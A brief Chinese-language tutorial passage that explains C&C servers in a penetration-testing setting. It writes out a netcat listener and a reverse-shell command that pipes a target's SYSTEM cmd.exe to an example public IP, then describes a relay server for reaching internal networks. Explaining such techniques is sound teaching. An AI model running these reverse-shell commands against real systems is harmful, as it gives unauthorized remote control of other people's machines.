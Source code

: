 ## C&C 服务器

C&C 服务器的全称是 Command and Control Server，翻译过来就是命令和控制服务器

通常在做渗透测试的时候，在拿到一个 webshell 的时候，需要对服务器进行提权操作，如果是一台 windows 的服务器，提权的时候通常是利用本地提权漏洞的 exp 进行溢出提权，有些 exp 可以直接在后面加参数，溢出成功之后执行参数中的命令。

而有的 exp 溢出成功之后是返回一个 system 权限的 cmd，这时就需要将低权限的 cmd shell 反弹回本地，这里用 nc 在本地执行：nc -vv -lp 3333

上述命令的意思是在本地监听一个 3333 端口等待连接，假设电脑 IP 是公网的，并且 IP 为 114.114.114.114，然后在目标服务器就可以执行：nc 114.114.114.114 3333 -e cmd.exe

上面的命令就可以把远程服务器的服务器权限的 cmd shell 返回到本地，这时你就可以通过 nc 建立的这个 shell 进行通信，发送你要执行的命令，在远程服务器接收到命令之后执行并将结果返回，这时本机电脑就是一个简易的 C&C 服务器。

**扩展资料**：

C&C 服务器使目标机器可以接收来自服务器的命令，从而达到服务器控制目标机器的目的。该方法常用于病毒木马控制被感染的机器。

通常只有这样内网的服务器才可以访问进行连接，所以可以使用一台中转服务器，这台中转服务器有一个公网 IP 地址是：111.111.111.111，这样不管是目标服务器还是我们本机都可以访问这台中转服务器。

这里中转服务器的作用就是本地内网的主机监听的端口映射到公网 IP 的某个端口，这样目标机访问中转服务器监听的端口就相当于访问了我们本地监听的端口。